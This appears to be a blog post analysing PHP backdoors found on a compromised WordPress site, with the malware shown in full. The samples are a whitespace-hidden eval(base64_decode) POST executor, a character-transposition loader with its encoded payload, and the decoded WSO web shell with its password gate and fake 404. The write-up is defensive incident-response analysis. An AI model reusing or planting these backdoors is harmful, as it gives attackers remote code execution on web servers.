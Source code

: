 ```yaml
---
layout: post
title: "Deobfuscating PHP Malware"
description: ""
category: 
tags: []
---
```

This week I was shown some PHP malware in the wild. A coworker was cleaning up a compromised Wordpress install. The web hosting provider had flagged a particular file as malware based on a file signature match. The cause of the infection was pretty clear (misconfigured webserver permissions allowing arbitrary file upload and execution!), so cleanup was strightforward. However, as we dug through the file hierarchy on the webserver, we found a number of additional PHP files that had _not_ been detected as malware, but were clearly malicious. I'm going to walk through the deobfuscation of these files.

<!--more-->
These files were found in various subdirectories inside `.git/objects`, which normally contain binary git blobs only. When was the last time you looked at the contents of that directory?

```
.inc.php
.view.php
diff.php
dump.php
inc.php
options.php
proxy.php
session.php
title.php
```

All the files have common names which wouldn't be out of place on any wordpress install. However, in this instance, the names stood out because the usual files in `.git/objects/*/` all have SHA names.

```
master$ ls .git/objects/16

9c10611acf14bef4a5430838a50a30fb967351
d7d7b0e2441d1dddff7dfbac4a944a2a213f28
inc.php
```

Let's look at the contents of one of these files. Here's what `inc.php` looked like when we opened it in an editor:

```php
<?php
```

OK, so just an empty PHP file. Nothing to see here, right? We were caught by this for a few minutes. Now let's try it with word wrap turned on:

```php
<?php                                                                                                                                                                                                                                                               $sF="PCT4BA6ODSE_";$s21=strtolower($sF[4].$sF[5].$sF[9].$sF[10].$sF[6].$sF[3].$sF[11].$sF[8].$sF[10].$sF[1].$sF[7].$sF[8].$sF[10]);$s22=${strtoupper($sF[11].$sF[0].$sF[7].$sF[9].$sF[2])}['n318a65'];if(isset($s22)){eval($s21($s22));}?>

```

Oh, now we've got something! The content was pushed to the right by 255 columns, hidden from casual observers.

Let's see if we can de-obfuscate this code. We'll start by reformatting:

```php
<?php
$sF="PCT4BA6ODSE_";
$s21=strtolower($sF[4].$sF[5].$sF[9].$sF[10].$sF[6].$sF[3].$sF[11].$sF[8].$sF[10].$sF[1].$sF[7].$sF[8].$sF[10]);
$s22=${strtoupper($sF[11].$sF[0].$sF[7].$sF[9].$sF[2])}['n318a65'];
if(isset($s22)){eval($s21($s22));}
?>
```

And now we can evaluate each line:

```php
<?php

$sF="PCT4BA6ODSE_";

$s21=strtolower($sF[4].$sF[5].$sF[9].$sF[10].$sF[6].$sF[3].$sF[11].$sF[8].$sF[10].$sF[1].$sF[7].$sF[8].$sF[10]);
# => $s21="base64_decode"

$s22=${strtoupper($sF[11].$sF[0].$sF[7].$sF[9].$sF[2])}['n318a65'];
# => $s22=_POST['n318a65']

if(isset($s22)){eval($s21($s22));}
# => if(isset(_POST['n318a65'])){eval(base64_decode(_POST['n318a65']));}

?>
```

OK, so we have an arbitrary code executor. This code will base64-decode and then execute the contents of the `n318a65` parameter if found in POST data. Easy!

Let's look at a more interesting file. Here's `.view.php`

```php
<?php
$vF9UATQ = Array('1'=>'N', '0'=>'S', '3'=>'O', '2'=>'8', '5'=>'v', '4'=>'3', '7'=>'H', '6'=>'n', '9'=>'W', '8'=>'u', 'A'=>'C', 'C'=>'f', 'B'=>'9', 'E'=>'q', 'D'=>'g', 'G'=>'y', 'F'=>'Y', 'I'=>'0', 'H'=>'t', 'K'=>'F', 'J'=>'w', 'M'=>'Q', 'L'=>'b', 'O'=>'2', 'N'=>'d', 'Q'=>'k', 'P'=>'6', 'S'=>'T', 'R'=>'V', 'U'=>'p', 'T'=>'R', 'W'=>'x', 'V'=>'4', 'Y'=>'s', 'X'=>'5', 'Z'=>'X', 'a'=>'A', 'c'=>'G', 'b'=>'e', 'e'=>'j', 'd'=>'1', 'g'=>'L', 'f'=>'U', 'i'=>'B', 'h'=>'r', 'k'=>'c', 'j'=>'a', 'm'=>'P', 'l'=>'7', 'o'=>'h', 'n'=>'D', 'q'=>'m', 'p'=>'I', 's'=>'o', 'r'=>'Z', 'u'=>'i', 't'=>'M', 'w'=>'J', 'v'=>'l', 'y'=>'E', 'x'=>'z', 'z'=>'K');
function vOSF9PJ($vJ2NSLW, $vIW0M1X){$vYNF1RQ = ''; for($i=0; $i < strlen($vJ2NSLW); $i++){$vYNF1RQ .= isset($vIW0M1X[$vJ2NSLW[$i]]) ? $vIW0M1X[$vJ2NSLW[$i]] : $vJ2NSLW[$i];}
return base64_decode($vYNF1RQ);}
$v4CK4VY = 'wcKdNcoCkcKxkGaBpApxrqRvrnFJtnToFqTutOFXFSDG3nKQ3SaxFqfxteFGtGplADsQFOBYL4pDm0aupOTq10plAuTQr9'.
'roN9WIZOKeNcv5LuaBpANcj9WvkIdoLuklAuTQr9roN9WIZ4RxrRBojqKV'.
'pnIDN7wdrSYzwcTvrqKdL7TCFOook61vNAaBpANZj9XQL4NxgSyG1Sy63Js'.
'zMcv8jRBxrZMswORGkqBGZOW5rGkYSvRtSAQlAQiULqvCkORIzANYLONCrZwGL4wxwGJJzSYzMcv8jRBxrZMswOdobKB'.
'vbcReNZTULOXCNcvHr0kYtAQlAQixrZTCNcvHrRBYj9dUNADJzSYzM71vNKBHF9NUFdBWN9BIrZ1Ck6R8NcvHr0DJz'.
'SYzMcTvrqv8r0D6Rd1mZdrKfv1wSIV6gAa6tuVdgey6zSYzAqvqzcNvNKBHF9NUFdBWN'.
'9BIrZ1Cr4iezAQUp7YzpAaDpcrdLq1Ij9B8pKNSS41IkqvJkOWokOovkGDQFZwGFZQUp7YzpAaDpA'.
'aDpAiGrZTdkqVDjZ1CFZwGFZQswcKGkqKXz0a/pcKGkqKXZOdokAD6Rd1mk'.
'4TGjZixLcKxjcRxwGJDwcKGkqKXz0aPp71IkqvJkOWokOovkGDQFZwGFZQU3JsDpAaDCMsDpAaDwKBMSd1fp'.
'nIDRd1mk4TGjZixLcKxjcRxzATCfyBSRAQlAuaDpAaQZI1mSIHwT0aBpKNSS41IkqvJkOWokOovkGDQZI1m'.
'SIHwT0QlA6IzAqrdLq1Ij9B8p7NxLIW5rOv8zAQDbJsDpAaDjcRorcRGzANpRKTMgxy8tAaItnMDSqBIpyr5N9XQwG'.
'QlAuaDpAiQj9fspeMJ1ApU3JUBADUqN9XeNcv5LuiZfIBxrZTeLOBhj9fswcYYpAT'.
'Oz0ilAuaDpAaQZI1mSIHwTRYQjdIDm0aQNeYzpAaDp71vNc15LOHU'.
'r0DQjGJDw7FU3JUBADUUruDor9dJN7QswcKdNcoCkcKxkGQUp7YzpAaDpcvqzcvxkORIzATC'.
'fyBSRKY6kcKxkGNNz0aqwuasL9MdzATCfyBSRKY6kcKxkGNNz0aBm0a'.
'QFZRIjKBJFZ1xz0QzpAaDpAaDpAiZfIBxrZTeLOBhj9fsL9MdzATCfIR0RQR09GNpRKTMZIomfdM6Z0QYpAToNZTsZ4iok4tU3'.
'JszpAaDpcvqpADojZ1xrZMswKBnSIBg0fRLL9MdzATCfIR0RQR09GNpRKTMZIomfdM6Z0'.
'vNz0i2CAaswKBnSIBg0fRLL9MdzATCfIR0RQR09GNpRKTMZIomfdM6Z0vNpAyBpAToNZTsZ4iok4tUzMsDpAaDpAaDp7NxLI'.
'W5rOv8zAQlA6IzAqrdLq1Ij9B8pcKeNcv5LvwnzAQDbJsDpAaDj9FspfaQZdimfdTLw4aWwdIUp7YzpA'.
'aDpAaDpAaQF0aBpcKGkqKXzasDpAaDpAaDpAaDpAauN9XoL9fupnI+p7iskKBd'.
'LqKHr0DUgasDpAaDpAaDpAaDpAaukcoJZ4rvk61ULOVupnI+p7isk7rvk61ULOVsz0Jz'.
'pAaDpAaDpAaDpAaDp6NxLdBOrZwxj9B8puaBmuiZfIBCRQR0fIvmSuJzpAaDpAaDpAaD'.
'pAaDp61orqRHLOTvpuaBmuiaj9XUZONvNAD6kOKqrRBHLOTvwGQzpAaDpAaDpAaU3JsDpAaDpAaDpcRejc2DkORG'.
'j9KYjZUvzATozSYzpAaDp7IDr9Wxr0ilAuaDpAaDpAaDrZroLADQZdimfdTLw4aWwdIU3JsDpAaDCM'.
'UBAqvqzAivLZiIb0DQZdimfdTLwOy6Z0QDzMsDpAaDj9FsjZ1xrZMswcTvrqKdL7TCF91Ij9B8z0aqwuiqN9XeNcv5LvBvbcv'.
'xN7tswOKeNcv5LukDguaQrcRqFZRYNKBoF4TULOVUzMsDpAaDpAaDpATCfyBSRKY6F0NNpnIDwcTvrqKdL7TCF9'.
'1Ij9B83JsDpAaDr9WxrMsDpAaDpAaDpATCfyBSRKY6F0NNpnIDwd1vFIv8rq263JUUruDD'.
'p9RHk7TXzATCfyBSRKY6F0NNz0aqwuiqN9XeNcv5LvBvbcvxN7tswOKeNcv5LukDguaQZdimfdT'.
'LwOy6Z0QDzMsDpAaDFOKYLKBdkORGZOrdLqtswOKeNcv5LukDguaQZdimfdTLwOy6Z0QlAqRVjZMl';
eval(vOSF9PJ($v4CK4VY, $vF9UATQ));
?>
```

This file employs similar tactics to obfuscate the payload. I changed the variable names and indentation, and its actions become very clear:

```php
<?php

$char_transposition_map = Array('1'=>'N', '0'=>'S', '3'=>'O', '2'=>'8', '5'=>'v', '4'=>'3', '7'=>'H', '6'=>'n', '9'=>'W', '8'=>'u', 'A'=>'C', 'C'=>'f', 'B'=>'9', 'E'=>'q', 'D'=>'g', 'G'=>'y', 'F'=>'Y', 'I'=>'0', 'H'=>'t', 'K'=>'F', 'J'=>'w', 'M'=>'Q', 'L'=>'b', 'O'=>'2', 'N'=>'d', 'Q'=>'k', 'P'=>'6', 'S'=>'T', 'R'=>'V', 'U'=>'p', 'T'=>'R', 'W'=>'x', 'V'=>'4', 'Y'=>'s', 'X'=>'5', 'Z'=>'X', 'a'=>'A', 'c'=>'G', 'b'=>'e', 'e'=>'j', 'd'=>'1', 'g'=>'L', 'f'=>'U', 'i'=>'B', 'h'=>'r', 'k'=>'c', 'j'=>'a', 'm'=>'P', 'l'=>'7', 'o'=>'h', 'n'=>'D', 'q'=>'m', 'p'=>'I', 's'=>'o', 'r'=>'Z', 'u'=>'i', 't'=>'M', 'w'=>'J', 'v'=>'l', 'y'=>'E', 'x'=>'z', 'z'=>'K');

function transpose_and_base64_decode($source_text, $transposition_map) {
  $transposed_string = '';
  for($i=0; $i < strlen($source_text); $i++) {
    $transposed_string .= isset($transposition_map[$source_text[$i]]) ? $transposition_map[$source_text[$i]] : $source_text[$i];
  }
  return base64_decode($transposed_string);
}

$long_text = '<SNIP>';

eval(transpose_and_base64_decode($long_text, $char_transposition_map));

?>
```

OK, we're ready to see the payload! Changing the final `eval` to a `print` and executing the code gets us this gem:

```php
<?php
$auth_pass = "3feed6004abdb3f9a8281d903be32623";

$color = "#df5";
$default_action = 'FilesMan';
$default_use_ajax = true;
$default_charset = 'Windows-1251';

@ini_set('error_log',NULL);
@ini_set('log_errors',0);
@ini_set('max_execution_time',0);
@set_time_limit(0);
@set_magic_quotes_runtime(0);
@define('WSO_VERSION', '2.5.1');

if(get_magic_quotes_gpc()) {
    function WSOstripslashes($array) {
        return is_array($array) ? array_map('WSOstripslashes', $array) : stripslashes($array);
    }
    $_POST = WSOstripslashes($_POST);
    $_COOKIE = WSOstripslashes($_COOKIE);
}

function wsoLogin() {
    header('HTTP/1.0 404 Not Found');
    die("404");
}

function WSOsetcookie($k, $v) {
    $_COOKIE[$k] = $v;
    setcookie($k, $v);
}

if(!empty($auth_pass)) {
    if(isset($_POST['pass']) && (md5($_POST['pass']) == $auth_pass))
        WSOsetcookie(md5($_SERVER['HTTP_HOST']), $auth_pass);

    if (!isset($_COOKIE[md5($_SERVER['HTTP_HOST'])]) || ($_COOKIE[md5($_SERVER['HTTP_HOST'])] != $auth_pass))
        wsoLogin();
}

function actionRC() {
    if(!@$_POST['p1']) {
        $a = array(
            "uname" => php_uname(),
            "php_version" => phpversion(),
            "wso_version" => WSO_VERSION,
            "safemode" => @ini_get('safe_mode')
        );
        echo serialize($a);
    } else {
        eval($_POST['p1']);
    }
}
if( empty($_POST['a']) )
    if(isset($default_action) && function_exists('action' . $default_action))
        $_POST['a'] = $default_action;
    else
        $_POST['a'] = 'SecInfo';
if( !empty($_POST['a']) && function_exists('action' . $_POST['a']) )
    call_user_func('action' . $_POST['a']);
exit;
?>
```

And voila, a nice little web shell based on WSO.

